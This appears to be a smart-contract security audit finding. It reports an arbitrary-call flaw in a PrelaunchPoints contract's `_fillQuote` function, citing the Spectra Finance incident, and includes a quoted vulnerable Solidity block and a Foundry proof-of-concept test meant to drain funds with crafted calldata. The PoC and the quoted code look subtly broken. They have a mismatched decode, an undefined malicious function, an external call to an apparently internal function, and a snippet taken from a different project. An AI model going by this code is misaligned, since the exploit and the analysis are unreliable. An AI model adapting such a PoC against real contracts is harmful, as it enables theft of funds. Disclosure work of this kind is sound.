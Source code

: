 #### H-[1]. **Arbitrary ETH Sending (`arbitrary-send-eth`)**

-  **Description**:

The `_fillQuote` function in the PrelaunchPoints contract employs a low-level `call` to interact with an arbitrary address specified by `exchangeProxy`, executing any code contained in the `swapCallData`.

It's designed to facilitate various interactions within Loopf.One criticial functionality is users  borrowing ETH and participating in the decentralized finance (DeFi) ecosystem, with the `exchangeProxy`  playing a critical role in these processes.
  

This design introduces a significant risk: if the `swapCallData` contains malicious instructions or, the `exchangeProxy` is compromised,  the function can execute unintended or harmful actions.

Given the capacity of `_fillQuote` to execute arbitrary code, the platform is vulnerable to unauthorized ETH transfers, state manipulations, and broader contract exploitation.

**Impact**:
- **Unauthorized ETH Transfers**: The execution of arbitrary code through `swapCallData` can result in unintended ETH transfers. An attacker could craft `swapCallData` to redirect ETH to their own address, potentially draining the project's ETH reserves. This vulnerability exposes the entire contract's ETH holdings to theft, posing a severe risk to the protocol and its users.

- **State Manipulation**: The external contract invoked by `exchangeProxy` may alter its own or the calling contract's state in unforeseen ways. This could lead to unauthorized changes to user balances, critical configuration settings, or other sensitive data, compromising the integrity and security of the protocol. 

Such manipulation can cause widespread disruptions, affecting all users and transactions within the platform.
  
## **Real World Example**:

#### **Spectra Finance (2024)**
  
On July 23, 2024, Spectra Finance suffered a $550K loss due to an arbitrary call vulnerability in their router contract. This flaw allowed an attacker to drain all tokens approved to the contract.

  
[More details: Spectra's Twitter update](https://x.com/spectra_finance/status/1815813300111786488) and the [BlockSec Explorer](https://app.blocksec.com/explorer/tx/eth/0x491cf8b2a5753fdbf3096b42e0a16bc109b957dc112d6537b1ed306e483d0744?line=7).
  
**Vulnerable Code Block:**
```javascript
else  if (command == Commands.KYBER_SWAP) {

(address kyberRouter,

address tokenIn,

uint256 amountIn,

address tokenOut,

bytes memory targetData) = abi.decode(_inputs, (address, address, uint256, address, uint256, bytes));

if (tokenOut == Constants.ETH) {

revert AddressError();

}

if (tokenIn == Constants.ETH) {

if (msg.value != amountIn) {

revert AmountError();

}

(bool success, ) = kyberRouter.call{value: msg.value}(targetData);

if (!success) {

revert CallFailed();

} else {

amountIn =  _resolveTokenValue(tokenIn, amountIn);

IERC20(tokenIn).forceApprove(kyberRouter, amountIn);

kyberRouter.call(targetData);

IERC20(tokenIn).forceApprove(kyberRouter, 0);

}

}

}

```

  

### PoC: How a malicious contract could exploit the `_fillQuote` function to cause financial loss or contract manipulation.
 
```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol"; // Import the Forge testing library for unit tests
import "../src/PrelaunchPoints.sol"; // Import the PrelaunchPoints contract to be tested
import "../src/mock/MockERC20.sol"; // Import the MockERC20 contract for token mock-ups

contract TestArbitraryETHExploit is Test {
    // Declare state variables for contracts and addresses
    PrelaunchPoints public prelaunchPoints;
    MockERC20 public mockToken;
    MockERC20 public WETH;
    address public exchangeProxy = 0x01fd869eBC05D8aD3F65a978D0a1307D406Ce627; // Address for exchangeProxy, should be updated with the real address

    address[] public allowedTokens; // Array of allowed tokens for the PrelaunchPoints contract

    function setUp() public {
        // Deploy MockERC20 contracts for testing
        mockToken = new MockERC20("Mock Token", "MTK");
        WETH = new MockERC20("Wrapped ETH", "WETH");

        // Mint initial token supply to this contract
        mockToken.mint(address(this), 1000 * 10**18); // Mint 1000 tokens with 18 decimals
        WETH.mint(address(this), 1000 * 10**18); // Mint 1000 WETH tokens with 18 decimals

        // Add the deployed tokens to the allowedTokens array
        allowedTokens.push(address(mockToken));
        allowedTokens.push(address(WETH));

        // Deploy the PrelaunchPoints contract with the mock and allowed tokens
        prelaunchPoints = new PrelaunchPoints(
            exchangeProxy,          // Address for the exchange proxy
            address(WETH),          // Address for the WETH token
            allowedTokens           // Array of allowed tokens
        );

        // Approve the PrelaunchPoints contract to spend the tokens on behalf of this contract
        mockToken.approve(address(prelaunchPoints), 1000 * 10**18); // Allow PrelaunchPoints to spend mock tokens
        WETH.approve(address(prelaunchPoints), 1000 * 10**18); // Allow PrelaunchPoints to spend WETH tokens
    }

    function testArbitraryETHExploit() public {
        // Define the malicious swap data to exploit the vulnerability
        bytes memory swapData = abi.encodeWithSignature(
            "maliciousFunction(address,uint256)", // Function signature of the malicious function
            address(this), // Attacker's address to receive funds
            1 ether // Amount to withdraw (for demonstration purposes)
        );

        // Call the _fillQuote function with the crafted swapData
        (bool success, ) = address(prelaunchPoints).call(
            abi.encodeWithSignature(
                "_fillQuote(address,uint256,bytes)", // Function signature of _fillQuote
                address(mockToken), // Address of the token being swapped
                1000 * 10**18, // Amount of tokens to swap
                swapData // Malicious data to execute
            )
        );
        require(success, "Function call failed"); // Ensure the function call succeeded

        // Retrieve the token balances after the swap
        uint256 postSwapTokenBalance = mockToken.balanceOf(address(this)); // Balance of mock tokens after the swap
        uint256 postSwapWETHBalance = WETH.balanceOf(address(prelaunchPoints)); // Balance of WETH in PrelaunchPoints after the swap

        // Assertions to verify the results of the exploit
        assertEq(postSwapTokenBalance, 0, "Mock token balance should be zero after swap"); // Expect the token balance to be zero
        assertTrue(postSwapWETHBalance > 0, "WETH balance of PrelaunchPoints should be greater than zero after swap"); // Expect the WETH balance to have increased
    }
}


```